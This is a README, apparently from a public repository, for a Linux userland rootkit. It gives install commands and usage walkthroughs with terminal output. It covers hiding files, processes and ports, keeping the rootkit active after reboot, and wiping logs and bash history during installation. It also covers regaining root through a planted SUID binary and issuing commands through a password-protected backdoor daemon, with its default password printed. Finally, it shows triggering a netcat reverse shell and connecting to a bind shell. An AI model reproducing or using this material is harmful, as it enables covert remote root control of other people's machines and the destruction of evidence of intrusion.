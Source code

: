 <h2>BDS Linux Userland Rootkit</h2>
<br>
Developed by : Antonius
<br>
Website : www.bluedragonsec.com
<br>
Website : www.indodev.asia
<br>
Github : https://github.com/bluedragonsecurity
  <br>
  Github : https://github.com/indodev-asia
<br>
Twitter : https://twitter.com/bluedragonsec
<p>
<h3>Features : </h3>
<ul>
  <li>Hide files and directories</li>
  <li>Hide process</li>
  <li>Hide bind shell port, bds daemon port and reverse shell port from netstat</li>
  <li>Rootkit persistence to survive after reboot</li>
  <li>clean logs and bash history during installation</li>
</ul>
</p>

<p>
<h3>Installation</h3>
You need root privilege for installing this rootkit.
<br>
In case you have installed gcc, install it by running the installer script:
<pre>
./install.sh direct
</pre>
<br>
In case you haven't installed gcc, install it by running the installer script :
<pre>
./install.sh
</pre>
</p>

<p>
<h3>Using the Rootkit</h3>
</p>

<p>
<br>
  <h4>Privilege Escalation</h4>
<br>
Once the rootkit installed on the system, in case you lost root privilege, you can regain root privilege by typing :
<br>
<b>/opt/bds_elf/bds_suid</b>
<br>
<pre>
robotsoft@robotsoft:~$ id
uid=1000(robotsoft) gid=1000(robotsoft) groups=1000(robotsoft),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare)
robotsoft@robotsoft:~$ /opt/bds_elf/bds_suid
root@robotsoft:~# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare),1000(robotsoft)
root@robotsoft:~# 
</pre>
</p>

<p>
<br>
<h4>Using the Rootkit Daemon</h4>
<br>
Rootkit built in daemon is listening on port 31335, default password is : bluedragonsec.
Using the rootkit built in daemon, you can issue a reverse shell connection and executing linux command on target machine (which you have installed rootkit) remotely.
  To connect  to rootkit daemon, open your terminal and type :
  <pre>
  nc "target ip" 31335
  </pre>
<br>
Example : 
<br>
You have installed bds userland on ip address 192.168.43.36 , open terminal and type:
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31335
CMD :
</pre>
Type any linux command in cmd prompt
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31335
Password :bluedragonsec
CMD :id
uid=0(root) gid=0(root) groups=0(root)
CMD :uname -a
Linux robotsoft 5.11.0-49-generic #55-Ubuntu SMP Wed Jan 12 17:36:34 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
CMD :pwd
/
CMD :
</pre>    
</p>

<p>
<br>
<h4>Activating Reverse Shell</h4>
<br>
<br>
To activate reverse shell, you need to set up a port listener using netcat on port 31337, then connect to bds daemon on your target server (with rootkit installed) on port 31335.
<br>
On your machine, open terminal and type:
<br>
<pre>
nc -l -p 31337 -v
</pre>  
Open another terminal tab and connect to target server on port 31335 :
<pre>
nc server ip 31335
then type : 
/opt/bds_elf/bds_bc "your ip address"
</pre>  
Wait a few seconds and you will get reverse shell port connection from your target server.
<br>
Example :
<br>
Server ip address with rootkit installed is at 192.168.43.36, your local machine ip is at 192.168.43.230.
Open terminal on your local machine and set up port listener on port 31337:
<pre>
  robotsoft@robotsoft:~$ nc -l -p 31337 -v
  Listening on 0.0.0.0 31337
</pre>
Open another terminal and connect to daemon on target machine (which you have installed rootkit) :
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31335
CMD :/opt/bds_elf/bds_bc 192.168.43.230
CMD :
</pre>  
Back on your previous netcat listener, you will receive a reverse shell connection : 
<pre>
root@robotsoft:~# nc -l -p 31337 -v
Listening on 0.0.0.0 31337
Connection received on 192.168.43.36 42012
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
</pre>
</p>
<p>
<br>
<h4>Connecting to Bind Shell Port</h4>
<br>
Bind shell port on server (which you have installed rootkit) is at port 31337, the password is <b>bluedragonsec</b></b>.
You can connect to bind shell port using netcat :
<pre>
nc "server ip address" 31337
then type the password : bluedragonsec  
</pre>
Example :
<br>
Server ip address (with bds userland rootkit installed) is at 192.168.43.36.
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31337
Password :bluedragonsec
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
</pre>
</p>

<p>
<br>
<h4>Hiding Files and Directories</h4>
<br>
To hide file and directory just give prefix bds_ to file name and directory name
</p>

<b>How to Clean Logs and Bash History ?</b>
<br>
Before running installation script, add username to usernames_to_clear_logs.txt in new line, example:
<pre>
root
robotsoft
</pre>
User logs will be cleaned during rootkit installation
</p>

<p>
<br>
  <h4>Process Hiding</h4>
<br>
This rootkit hides bind shell process, reverse shell process and rootkit built-in daemon process.
</p>

<p>
<br>
<h4>Port Hiding</h4>
<br>
This rootkit hides bind shell port, reverse shell port and rootkit built-in daemon port.
</p>

<p>
<br>
<h4>Persistence</h4>
<br>
  The rootkit is activated every time the system starts up. After the reboot, wait for 2 minutes, the rootkit will be activated.
</p>


